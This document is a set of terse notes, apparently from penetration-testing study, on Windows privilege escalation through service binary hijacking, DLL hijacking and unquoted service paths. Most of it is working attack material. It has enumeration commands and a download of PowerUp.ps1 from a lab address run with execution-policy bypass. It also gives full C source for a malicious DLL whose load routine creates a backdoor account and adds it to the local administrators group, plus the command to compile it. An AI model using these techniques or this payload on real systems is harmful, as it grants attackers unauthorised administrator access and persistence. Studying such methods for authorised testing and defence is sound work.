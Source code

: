 ### Service Binary Hijacking
Get-Service
Get-CimInstance

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

icacls
Get-ACL
icacls "C:\xampp\apache\bin\httpd.exe"



replace the binary with desired exe
restart service if rights
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupMonitor'}
shutdown /r /t 0

powerup,ps1

iwr -uri http://192.168.45.186:8000/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile

### service DLL hijacking

search order for dll
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
Get-Process chrome | select -ExpandProperty modules | group -Property FileName | select name

Dllmain four cases

DLL_PROCESS_ATTACH
DLL_THREAD_ATTACH
DLL_THREAD_DETACH
DLL_PROCESS-DETACH

DLL code
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

### Unquoted Service Paths

Get-CimInstance -ClassName win32_service | Select Name,State,PathName

cmd - wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
check for rights at all path using icacls
copy the exe at path that is writeable
restart service

powerup

Get-UnquotedService